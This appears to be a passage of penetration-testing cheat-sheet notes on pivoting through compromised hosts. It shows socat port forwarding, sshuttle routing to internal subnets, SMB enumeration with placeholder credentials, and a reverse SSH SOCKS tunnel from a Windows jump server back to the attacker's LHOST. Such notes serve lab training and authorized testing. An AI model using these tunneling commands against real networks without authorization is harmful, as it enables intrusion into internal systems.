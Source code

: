 ### sshuttle

| System             | IP address     |
| ------------------ | -------------- |
| LHOST              | 192.168.50.10  |
| APPLICATION SERVER | 192.168.100.10 |
| DATABASE SERVER    | 10.10.100.20   |
| WINDOWS HOST       | 172.16.50.10   |

- LHOST > APPLICATION SERVER > NETWORK

##### APPLICATION SERVER

```console
$ socat TCP-LISTEN:2222,fork TCP:10.10.100.20:22
```

##### LHOST

```console
$ sshuttle -r <USERNAME>@192.168.100.10:2222 10.10.100.0/24 172.16.50.0/24
$ smbclient -L //172.16.50.10/ -U <USERNAME> --password=<PASSWORD>
```

### ssh.exe

| System              | IP address     |
| ------------------- | -------------- |
| LHOST               | 192.168.50.10  |
| APPLICATION SERVER  | 192.168.100.10 |
| WINDOWS JUMP SERVER | 192.168.100.20 |
| DATABASE SERVER     | 10.10.100.20   |
| WINDOWS HOST        | 172.16.50.10   |

- LHOST < FIREWALL < WINDOWS JUMP SERVER > NETWORK

##### LHOST

```console
$ sudo systemctl start ssh
$ xfreerdp3 /u:<USERNAME> /p:<PASSWORD> /v:192.168.100.20
```

##### WINDOWS JUMP SERVER

```cmd
C:\> where ssh
C:\Windows\System32\OpenSSH\ssh.exe
C:\Windows\System32\OpenSSH> ssh -N -R 9998 <USERNAME>@192.168.50.10
```
